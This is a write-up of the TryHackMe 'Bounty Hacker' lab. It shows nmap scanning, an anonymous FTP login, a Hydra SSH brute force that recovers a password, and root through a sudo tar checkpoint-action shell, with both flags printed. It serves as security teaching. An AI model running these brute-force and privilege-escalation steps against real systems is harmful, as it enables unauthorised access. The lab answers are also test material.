# Bounty Hunter Writeup (Easy)
### TryHackMe 
### Ean Dudley, 12/20/2021

### Task 1: Deploy The Machine 
Connect to the machine via the attack box or openvpn 

### Task 2: Find Open Ports 
I used NMAP to find open ports using the following syntax: 

``` bash
sudo nmap -sC -sV [TargetIP]
```

I got the following return: 

``` bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-20 13:11 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.94 seconds
```

Add the the flag ``` -Pn ``` to find any open ports. 
``` bash 
sudo nmap -sC -sV -Pn [TargetIP] 
```

Using the -Pn flag was successful and the following output was given: 
```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-20 13:12 EST
Nmap scan report for 10.10.79.132
Host is up (0.14s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.77.20
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.40 seconds
```

There seem to be three ports running services that may be helpful: 
	Port 21 FTP 
	Port 22: SSH
	Port 80: TCP 

FTP also has anonymous login available to access two files: 
	- task.txt
	- locks.txt 
 
### Task 3: Who wrote the task list? 

FTP has a file called task.txt and anonymous access. Login to FTP to find who wrote the tasklist.

``` bash 
ftp [targetIP]
``` 

After executing this command I got the following output, and was prompted for the name (See line 3 of the following output).  Enter: 'anonymous' to take advantage of the FTP anonymous login. 

```bash
Connected to 10.10.79.132.
220 (vsFTPd 3.0.3)
Name (10.10.79.132:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Now the prompt changes to ```ftp>```.  Get both files onto our local machine and then read them. 

``` bash
ftp> get 
(remote-file) task.txt
(local-file) task.txt 

ftp> get 
(remote-file) lock.txt
(local-file) lock.txt
```

Back on local attacking machine read these files, starting with task.txt. 

``` bash
cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

The **Answer** for task 3: **lin**

### Task 4:  What service can you bruteforce with the text file found?

Bruteforce** SSH** using Hydra since there is a username. Conveniently, the lock.txt file has a list of what appears to be passwords so run a wordlist based attack on SSH to login. 

### Task 5: What is the users password? 

Use **Hydra** to run an attack on SSH using the username lin. 

``` bash 
hydra -l lin -P locks.txt 10.10.79.132 -t 4 ssh
``` 
The ``` -l ``` flag specifies the username 
The ``` -P ``` flag specifies the password list. 
The ``` -t      ``` flag is used to specifies the number of thread to use for the attack. Hydra recommends 4 threads for SSH. 

After running this command get the following output: 

``` bash 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-20 13:21:27
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.79.132:22/
[22][ssh] host: 10.10.79.132   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-20 13:21:37
```
That our password is: **RedDr4gonSynd1cat3**.
### Task 6: user.txt 

Login to ssh using ``` lin@[targetIP]``` and when prompted for the password use the answer from question 4. 

After logging into the system use cat to read the user.txt file: 
``` bash 
cat user.txt 
THM{CR1M3_SyNd1C4T3}
```

**Flag: THM{CR1M3_SyNd1C4T3}**

### Task 7: root.txt 
With an initial foothold,  try to gain root access. To start see if there is authorization to run anything as root that may be able to exploit: 

```bash
sudo -l 
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```
There is authorization to run ``` tar ``` as root.  This can be exploited by using the following command: 

``` bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

*If you are unsure how to exploit tar, there are a lot of good resources online. This one is my favourite: https://gtfobins.github.io/gtfobins/tar/*

``` bash 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
cat /root/root.txt
THM{80UN7Y_h4cK3r}
```

**root flag: THM{80UN7Y_h4cK3r}**

### Summary 
We initially scan this machine using nmap and have to force ports to respond using the  -Pn option. From NMAP we see that we can login to FTP anonymous access in order to read a tasklist and a password list. We can then use that password list and the username found in the tasklist to brute-force an attack on SSH using Hydra. Using the login credentials to SSH found by Hydra, we can login and get our initial access. Then we can use sudo on the target machine to find if there are any vulnerable commands we can utilize to get root access. Sudo shows that tar is able to be executed at a super user level, and we are able to exploit tar to get root level access. 





